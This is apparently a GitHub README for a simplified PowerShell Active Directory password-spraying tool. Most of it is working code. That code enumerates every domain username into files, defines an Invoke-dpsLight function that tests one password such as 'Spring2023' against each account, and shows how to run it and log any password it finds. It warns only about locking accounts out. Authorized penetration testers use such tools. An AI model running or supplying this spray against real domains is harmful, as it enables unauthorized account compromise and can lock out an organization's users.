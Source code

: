 # DomainPasswordSprayLight

Kudos to Beau Bullocks [Domain Password Spray script](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) of which this is a simplification.

## Gather Domain Usernames

Run the following to get a PowerShell object called $AllUserObjects that you can interact with to sort, filter and write seletected usernames to a file of your choosing.

```PowerShell
$UserSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$CurrentDomain)
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry
$UserSearcher.SearchRoot = $DirEntry
$UserSearcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$Filter = ""
$UserSearcher.filter = "(&(objectCategory=person)(objectClass=user)$Filter)"
$UserSearcher.PageSize = 1000

Write-Host -ForegroundColor Cyan "Searching for all users, that may take several minutes."
$AllUserObjects = $UserSearcher.FindAll()
Write-Host -ForegroundColor "yellow" ("[*] " + $AllUserObjects.count + " total users found.")
```

### Write all usernames to a file

```PowerShell
$outfile = "all-user.txt"
Remove-Item $outfile -ErrorAction Ignore
$AllUserObjects.Properties.samaccountname | add-content $outfile
```

### Write specific users to a file

In this example, the usernames are limited to only those that start with "ab"

```PowerShell
$outfile =  "all-ab-accounts.txt" 
Remove-Item $outfile -ErrorAction Ignore
($AllUserObjects | where-object {$_.Properties.samaccountname -like  "ab*"}).Properties.samaccountname | add-content $outfile
```
## Password Spray with PowerShell

First, copy and paste the Invoke-dpsLight function below into your PowerShell window. This will not run the password spray but will make the Invoke-dpsLight function available for us to use.

```PowerShell
function Invoke-dpsLight ($Password, $userlist) {
    $users = Get-Content $userlist
    $Domain = "LDAP://" + ([ADSI]"").distinguishedName
    $count = 0
    foreach ($User in $users) {
        $count = $count + 1
        $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
        if ($Domain_check.name -ne $null) {
            Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
        }
        else {
            Write-Host "$count`:$User " -NoNewline
            # start-sleep -milliseconds 300
        }
    }
    Write-Host -ForegroundColor green "Finished"
}
```

Next, you can execute the follow to run the password spray. Be very careful. You could lock every user in the domain out using this script. Don't run it multiple times in a short period of time. In this example, "Spring2023" is the password guess and **all-ab-users.txt** is the list of usernames to try the password on.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt
```

Or, if you want to output the results to a file in addition to on the screen you can use the following.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt 2 *>&1 | tee -Append out.txt
```

## Password Spray from the Command Prompt

This method using a different method which generates different Windows event IDs. It is also much slower.

